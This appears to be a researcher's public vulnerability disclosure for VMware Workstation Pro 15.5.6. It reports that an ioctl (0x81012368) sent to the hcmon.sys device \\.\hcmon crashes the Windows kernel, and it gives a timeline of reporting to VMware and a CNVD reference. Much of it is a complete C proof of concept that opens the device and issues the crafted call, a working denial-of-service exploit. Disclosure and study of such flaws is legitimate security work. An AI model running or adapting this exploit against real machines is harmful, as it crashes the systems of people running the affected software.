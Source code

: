 # VMware USB monitor allows attackers to cause blue screen
These page show one of the practical vulns that Found. I reported these bugs to Security@vmware.com on On 27/8/2020 and now I have been told they have ignored the bugs and the details can be published.  I think it is a must to list the detailed infomation here.
## Time Line
 * 27/8/2020 Bugs were reported to Security@vmware.com.
 * 25/9/2020 Vmware got confirmation that the poc could cause system crash.
 * 26/9/2020 Vmware ignored the infomation for the poc required privilige to file "\\\\.\\hcmon"
 * 12/11/2020 POC published.
 

 ## Abstract
 
* Name: VMware Workstation
* Date: 2020-8-27
* Reporter: Shuaibing Lu
* Vendor: http://www.vmware.com/
* Software Link: 3.https://my.vmware.com/cn/web/vmware/downloads/details?downloadGroup=WKST-1556-WIN&productId=799&rPId=47859
* Version: VMware Workstation Pro 15.5.6
### Description
Kernel module hcmon.sys in the USB monitor component of VMware Workstation Pro 15.5.6 allows attackers to inject a crafted argument via the argument of an ioctl on device "\\\\.\\hcmon" with the command **0x81012368** and cause a kernel crash.

To explore this vulnerability, some one must open the device file "\\\\.\\hcmon", call an ioctl system call on this device file with the command **0x81012368** and a crafted payload as the third argument.
### PoC
```
//Experimental environment: win10 x64

//Software official website:https://www.vmware.com/cn.html

//Software download address:http:https://my.vmware.com/cn/web/vmware/downloads/details?downloadGroup=WKST-1556-WIN&productId=799&rPId=47859

//Software version：15.5.6 build-16341506

//Affected Component:

//poc


#include<stdio.h>

#include <windows.h>

typedef struct _IO_STATUS_BLOCK {

    union {

        NTSTATUS Status;

        PVOID    Pointer;

    } DUMMYUNIONNAME;

    ULONG_PTR Information;

} IO_STATUS_BLOCK, * PIO_STATUS_BLOCK;



typedef NTSTATUS(NTAPI* NtDeviceIoControlFile)(

    HANDLE           FileHandle,

    HANDLE           Event,

    PVOID            ApcRoutine,

    PVOID            ApcContext,

    PIO_STATUS_BLOCK IoStatusBlock,

    ULONG            IoControlCode,

    PVOID            InputBuffer,

    ULONG            InputBufferLength,

    PVOID            OutputBuffer,

    ULONG            OutputBufferLength

    );

int main() {
    char  DeviceName[] = "\\\\.\\hcmon";
    long command = 0x81012368;
    HANDLE hDriver = CreateFileA(DeviceName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    ULONG dw;

    if (hDriver == INVALID_HANDLE_VALUE) {
        printf("Open device failed.\n");
        system("pause");

        return(-1);

    }

    LPCWSTR nt = L"ntdll";

    HMODULE hntdll = GetModuleHandle(nt);

    IO_STATUS_BLOCK p = {};

    NtDeviceIoControlFile tDeviceIoControl = (NtDeviceIoControlFile)GetProcAddress((HMODULE)hntdll, "NtDeviceIoControlFile");

    if (!tDeviceIoControl) {

        printf("[-] Fail to resolve ZwDeviceIoControlFile(0x%X)\n", GetLastError());

        system("pause");

    }

    printf("Start poc execution.\n");
    LPVOID lpFakeBuffer = malloc(0x20000);

    memset(lpFakeBuffer, 0, 0x20000);

    LPVOID Address = malloc(0x20000);

    memset(Address, 0, 0x20000);

    tDeviceIoControl(hDriver, 0, 0, 0, &p, command, lpFakeBuffer, 0, (PVOID)Address, 0);

    return 0;

}
```
### References

CNVD: https://www.cnvd.org.cn/flaw/show/CNVD-2020-53155 

### Screenshot

